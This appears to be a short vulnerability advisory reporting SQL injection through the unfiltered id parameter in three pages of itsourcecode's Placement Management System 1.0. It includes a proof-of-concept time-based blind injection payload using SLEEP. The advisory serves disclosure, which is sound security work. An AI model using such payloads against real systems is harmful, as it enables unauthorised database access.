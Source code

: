 # Vendor

itsourcecode

# Product

Placement Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Placement-Management-System-Project-In-PHP-Source-Code.zip

# Description

In the view_company.php, view_drive.php, and view_student.php pages, an id parameter can be passed to query data. However, due to inadequate filtering of the id parameter on these pages, SQL injection vulnerabilities are present.
<img width="886" alt="image" src="https://github.com/user-attachments/assets/558cd99a-2ccf-48bc-aa9d-88900c12d7a6">
<img width="1024" alt="image" src="https://github.com/user-attachments/assets/99f63967-1c5f-42e1-b307-7723a625e4c5">
<img width="1099" alt="image" src="https://github.com/user-attachments/assets/e00c0138-94e5-4beb-8b5b-7aa6e0f4ea3f">

# Poc
```
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 5490 FROM (SELECT(SLEEP(5)))qDPR) AND 'HyHB'='HyHB
```
